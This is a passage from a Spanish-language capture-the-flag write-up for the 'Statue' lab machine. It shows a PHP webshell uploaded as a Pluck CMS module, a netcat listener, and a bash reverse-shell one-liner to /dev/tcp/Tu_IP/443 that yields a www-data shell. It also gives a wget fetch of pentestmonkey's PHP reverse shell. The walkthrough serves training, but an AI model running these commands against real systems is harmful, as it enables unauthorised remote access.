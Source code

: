 Simplemente, entramos, escogemos el script que es nuestra **WebShell de PHP** y ya podremos ejecutar comandos:

<p align="center">
<img src="/assets/images/THL-writeup-statue/Captura13.png">
</p>

Apliquemos una **Reverse Shell**.

Abre un listener con **netcat**:
```bash
nc -nvlp 443
listening on [any] 443 ...
```

Desde la **WebShell**, utiliza la siguiente **Reverse Shell**:
```bash
bash -c 'bash -i >%26 /dev/tcp/Tu_IP/443 0>%261'
```

<p align="center">
<img src="/assets/images/THL-writeup-statue/Captura14.png">
</p>

Y observa la **netcat**:
```bash
nc -nvlp 443
listening on [any] 443 ...
connect to [Tu_IP] from (UNKNOWN) [192.168.10.100] 36450
bash: cannot set terminal process group (947): Inappropriate ioctl for device
bash: no job control in this shell
www-data@TheHackersLabs-Statue:/var/www/pluck/data/modules/shell$ whoami
whoami
www-data
```

<br>

<h3 id="Modulo2">Cargando una Reverse Shell como Módulo a Pluck</h3>

Vamos a utilizar la **Reverse Shell** de **PentestMonkey**, puedes descargarla de aquí:
* <a href="https://github.com/pentestmonkey/php-reverse-shell" target="_blank">Repositorio de pentestmonkey: php-reverse-shell</a>

O solamente utiliza **wget** para descargar la **Reverse Shell**:
```bash
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/refs/heads/master/php-reverse-shell.php
```
